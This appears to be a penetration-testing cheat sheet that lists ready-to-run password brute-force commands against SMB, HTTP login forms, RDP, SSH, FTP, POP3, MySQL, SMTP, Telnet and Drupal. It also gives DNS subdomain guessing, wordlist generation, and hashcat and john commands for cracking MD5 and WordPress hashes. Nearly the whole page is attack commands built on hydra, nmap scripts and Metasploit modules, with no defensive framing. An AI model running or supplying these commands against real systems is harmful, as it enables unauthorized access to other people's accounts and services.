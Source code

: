 ## SMB bruteforece
```
nmap --script=smb-brute.nse 192.x.x.x
nmap -sV -p 445 --script smb-brute 192.168.13.200-254
acccheck -v -t 10.1.1.22 -u kevin -P /usr/share/wordlists/rockyou.txt
```
## HTTP bruteforce (forms)
```
hydra -l admin -P /root/ctf_wordlist.txt domain.com http-post-form "/admin.php:u=^USER^&p=^PASS^&f=login:'Enter your username and password to continue'" -V
```

## RDP bruteforce
```
hydra -t 4 -V -l root -P /usr/share/wordlists/rockyou.txt rdp://192.168.x.x
```

## SSH bruteforce
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.13.234 ssh
hydra -t 4 -L /usr/share/wordlists/cristi.txt -P /usr/share/wordlists/cristi-passwords.txt 192.168.13.236 ssh
hydra -t 4 -L /usr/share/wordlists/cristi.txt -p some_passsword 192.168.13.236 ssh
hydra -t 4 -l root -P /usr/share/wordlists/cristi-passwords.txt 127.0.0.1 -s 50000 ssh
```

## Bruteforce FTP
```
hydra -t 4 -L /usr/share/wordlists/cristi.txt -P /usr/share/wordlists/cristi-passwords.txt 192.168.13.236 ftp
use auxiliary/scanner/ftp/ftp_login
```

##Bruteforce POP3
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.158 pop3
```

## DNS bruteforce
```
nmap -p 80 --script dns-brute.nse domain.com
python dnscan.py -d domain.com -w ./subdomains-10000.txt
```

## MySQL bruteforce
```
nmap -p 3306 --script mysql-brute --script-args userdb=/usr/share/wordlists/mysql_users.txt,passdb=/usr/share/wordists/rockyou.txt -vv 192.168.31.139
 OR with hexorbase
```

## SMTP brute force
```
hydra -s 25 -v -V -l root@ucal.local -P /usr/share/wordlists/rockyou.txt -t 1 -w 20 -f 192.168.29.55 smtp

-l LOGIN name
-P load several passwords from FILE
-s port
-v verbose mode
-V show login+pass combination for each attempt
-t run TASKS number of connects in parallel
-w waittime for responses (32s) / between connects per thread
-f exit after the first found login/password pair
```

## Telnet bruteforce
```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(telnet_login) > run

msf auxiliary(telnet_login) > sessions -l  // to see the sessions that succeded
```

## MySql, Oracle, PostgreSQL, SQLlite, MS-Sql bruteforcer and database browser
```
hexorbase
```

## Generate a wordlist from a webpage
```
cewl www.megacorpone.com -m 6 -w /root/newfilelist.txt 2>/dev/null
```

## Mangle/permutate a wordlist with john
```
john --wordlist=cewlgeneratedwordlist.txt --rules --stdout > megamangled.txt
```

## Drupal bruteforce attack
```
site="192.168.230.147"
id=$(curl -s http://$site/user/|grep "form_build_id" |cut -d"\"" -f6)
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt $site http-form-post "/?q=user/:name=^USER^&pass=^PASS^&form_id=user_login&form_build_id="$id":Sorry" -V
```

## Crack MD5 with hashcat and wordlist. a=0 is straight attack
```
oclHashcat64.exe -m 0 -a 0 C:\Users\Cristi\Downloads\hashuri.txt F:\wordlist\realuniq.lst
oclHashcat64.exe -m 0 -pw-max=8 C:\Users\Cristi\Downloads\hashuri.txt F:\wordlist\realuniq.lst
```

# Brute force Wordpress (PHPASS)
```
cudahashcat64.exe -m 400 -a 3 hashfile wordlist
```

